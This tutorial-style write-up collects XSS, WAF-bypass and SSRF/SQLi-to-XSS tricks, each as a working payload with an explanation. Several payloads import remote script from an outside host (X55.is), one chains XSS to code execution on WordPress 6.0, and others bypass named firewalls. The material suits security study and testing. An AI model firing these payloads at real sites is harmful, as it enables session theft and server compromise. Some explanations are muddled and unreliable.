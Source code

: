 <h1>Brute Logic Tricks: Advanced Techniques in Web Security Exploitation</h1>
The following write-up highlights advanced web exploitation techniques focusing on XSS (Cross-Site Scripting) vulnerabilities, WAF (Web Application Firewall) bypasses, and SSRF (Server-Side Request Forgery) scenarios. These methods are tailored for skilled penetration testers and security researchers, offering a deeper understanding of how to trick filters and evade detection in web applications.

1. Escaping Filters Using Byte Bundles
Concept: To bypass filters that escape specific characters such as single quotes (') when performing web attacks, particularly XSS, one can leverage bytes in the range of %A1 to %FE. These byte ranges can be combined with a single quote to outsmart the filter mechanism.

Explanation: In web security, many systems sanitize or escape certain characters like %27 (which is the ASCII encoding for ') to prevent malicious injections. However, some filtering mechanisms do not account for all possible byte combinations. By using a byte from %A1 to %FE, you can evade certain character escape sequences and trick the filter into allowing the injection. This is particularly useful when performing brute-force logic attacks or exploring other injection techniques.

2. WP 6.0 XSS to RCE Proof of Concept (PoC)
Concept: In WordPress 6.0, a known exploit allows a user to escalate an XSS (Cross-Site Scripting) vulnerability to RCE (Remote Code Execution). The method involves creating a file (brute.txt) in the /wp-content/plugins folder.

Example:

import('//X55.is/wp')
Requirements:

An admin user must be logged in with default write permissions.
The "Hello Dolly" plugin needs to be activated (or left deactivated as it's a default plugin in WordPress).
Explanation: XSS is a client-side code injection attack, but in this case, it can escalate into a server-side RCE if the admin user is logged in. The trick lies in leveraging the default permissions in WordPress installations to inject a malicious file. This kind of exploitation showcases the danger of poorly protected administrative interfaces in web applications.

3. Breaking Out of String Values with Quotes
Concept: To escape from any string value where user input is embedded, an injection of single or double quotes is essential unless there are two injection points.

Example:
XSS: /alert(1)//\
Explanation: When user inputs are inserted into strings without proper sanitization, attackers can use single or double quotes to close the string and execute arbitrary code. However, if you have two injection points (such as opening and closing quotes around your payload), breaking out of a single point might not be necessary. The goal here is to manipulate the syntax of the code by closing strings prematurely, enabling the injection of additional malicious code.

4. Anchors as XSS Vectors
Concept: HTML <a> tags (anchors) are powerful XSS vectors. By exploiting their attributes, one can trigger XSS payloads automatically.

Example 1:
<a href=//X55.is autofocus onfocus=import(href)>
Explanation: Here, the combination of the autofocus and onfocus attributes is used to trigger the import() function when the link is clicked or the element receives focus. This is an advanced method for exploiting XSS, taking advantage of HTML5 attributes. The anchor tag makes it especially dangerous since it is a common element on web pages and can be used to load external scripts without the need for parentheses.

5. Misplacing Payloads and the ">" Symbol
Concept: If a payload and the ">" symbol are misplaced in HTML code, moving elements out of their usual place can still allow the execution of malicious code.

Example:
<Img Src="//X55.is/> "OnError=import(src)//
Explanation: In this example, the payload bypasses filters by misplacing the > symbol. This is a clever trick that can allow a malicious script to run even if the filter expects the payload to be in a specific position. The OnError event is used to trigger the payload when the image fails to load, effectively executing the malicious code.

6. Securi WAF Bypass
Concept: Securi WAF (Web Application Firewall) can be bypassed using a crafted HTML form, as shown below.

Example:

data:text/html,<form action=https://brutelogic.com.br/xss-waf.php method=post><input type=hidden name=a value="<K Contenteditable Autofocus OnFocusIn= [1].map(alert)>"><input type=submit value=XSS></form>
Explanation: This example uses a hidden input field with a crafted payload to bypass the Securi WAF. The Contenteditable attribute allows for user interaction, while Autofocus and OnFocusIn trigger the attack when the form is submitted. Web Application Firewalls typically inspect requests for known patterns, but this creative form submission method can evade such detection mechanisms.

7. Impera WAF Bypass
Concept: By crafting a vector inside an SVG tag, it’s possible to bypass the Impera WAF.

Example:

<svg><set onbegin=d=document,b='`',d['loca'+'tion']='javascript&colon;aler'+'t'+b+domain+b>
Explanation: Here, the vector uses an SVG element with a set attribute that starts executing JavaScript code when the SVG is rendered. The code concatenates parts of the location object and JavaScript's alert() function to trigger an alert. This bypasses the Impera WAF, which likely doesn’t properly inspect or decode these complex constructs inside SVG files.

8. XSS Vulnerability from SSRF or SQLi Scenarios
Concept: Cross-Site Scripting (XSS) can emerge from SSRF (Server-Side Request Forgery) or SQL injection scenarios if improperly handled.

SSRF (curl-based) Example:

?url=https://blablablabla-site.com/poc.svg
SSRF (PHP file_get_contents) Example:

plaintext
Copy code
?url=data:,<svg/onload=alert(1)>
SQLi (error-based) Example:

?id='<svg/onload=alert(1)>
Explanation: In these cases, XSS occurs because input parameters are not sanitized, allowing attackers to inject malicious scripts into server responses. SSRF exploits can be leveraged by providing URLs that return SVG files containing scripts, while SQLi can inject scripts directly into database queries, resulting in the execution of malicious code when the error message or query result is rendered.

9. Brute SVG Collection
Brute Logic offers a collection of SVG files, each serving different purposes in exploiting web vulnerabilities.

XSS (no image)

URL: https://brutelogic.com.br/poc.svg
XSS (valid image)

URL: https://brutelogic.com.br/brute.svg
Redirect (default)

URL: https://brutelogic.com.br/redir.svg
Redirect (custom)

URL: https://brutelogic.com.br/redir.svg?url=//X55.is
Redirect (custom + warning)

URL: https://brutelogic.com.br/redir.svg?url=//X55.is&w=1
Explanation: This collection provides pre-built SVG files that trigger XSS or redirect behavior when accessed. The SVG format is commonly used for image rendering, but attackers can insert scripts into these files, making them a vector for XSS attacks. The redirect files can be customized to send users to any malicious site, with optional warning messages to obscure the true intent of the redirect.

Conclusion
The above techniques represent advanced strategies used by security researchers to test, bypass, and exploit web vulnerabilities. These methods emphasize the need for rigorous input validation, secure configuration, and proper use of web application firewalls to protect against common attack vectors like XSS, SSRF, and SQLi. As web security continues to evolve, so do the methods used by attackers, making it crucial to stay informed about these cutting-edge techniques.

